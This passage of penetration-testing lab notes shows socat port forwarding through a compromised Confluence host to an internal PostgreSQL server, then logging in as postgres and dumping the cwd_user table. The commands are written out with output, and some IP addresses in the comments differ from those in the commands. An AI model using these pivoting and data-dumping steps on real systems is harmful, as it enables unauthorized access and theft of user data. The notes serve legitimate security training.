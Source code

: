 ```bash
	...
	  </properties>
	</confluence-configuration>
```

- CONFLUENCE01 (192.168.247.63) is listening on port 8090
- PGDATABASE01 (10.4.247.215) is listening on port 5432 - (PostgreSQL server's default port)

How it should work:
- Open port 2345 on WAN interface of CONFLUENCE01 & connect to via Kali
- All packets sent to 2345 get forwarded by CONFLUENCE01 to port 5432 on PGDATABASE01
- Connecting to port 2345 on CONFLUENCE01 should be exactly like connecting directly to port 5432 on PGDATABASE01

![](port_forward_scenario.png)

- On CONFLUENCE01
```bash
	socat -ddd TCP-LISTEN:2345, fork TCP:10.4.247.215:5432 &
```
	-ddd - verbose
	TCP-LISTEN:2345 - Listener on port 2345
	fork - Fork into a new subprocess when it receives a connection instead of dying after a single connection
	TCP:10.4.5.215:5432 - Forward all traffic received to port 5432 on PGDATABASE01

- On Kali, use the [psql](Tools.md#psql) tool to interact with the PostgreSQL database
```bash
psql -h 192.168.247.63 -p 2345 -U postgres
	Password for user postgres: 
	psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
	Type "help" for help.
	
	postgres=#
```
	psql - Start a terminal-based front-end to PostgreSQL session
	-h 192.168.50.63 -p 2345 - Connect to CONFLUENCE01 on port 2345
	-U postgres - Use the *postgres* user account



Once prompted, enter the password discovered previously and run:
- `\l` command to list the available databases
- `\c confluence` command to work with the confluence database
- `\dt` command to display tables (if necessary)
- `select * from cwd_user;` command to dump the user table

```postgresql
 postgres=# \l
										List of databases
	    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
	------------+----------+----------+-------------+-------------+-----------------------
	 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
	 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
	 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
	            |          |          |             |             | postgres=CTc/postgres
	 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
	            |          |          |             |             | postgres=CTc/postgres
	(4 rows)

postgres=# \c confluence
	psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
	You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;
```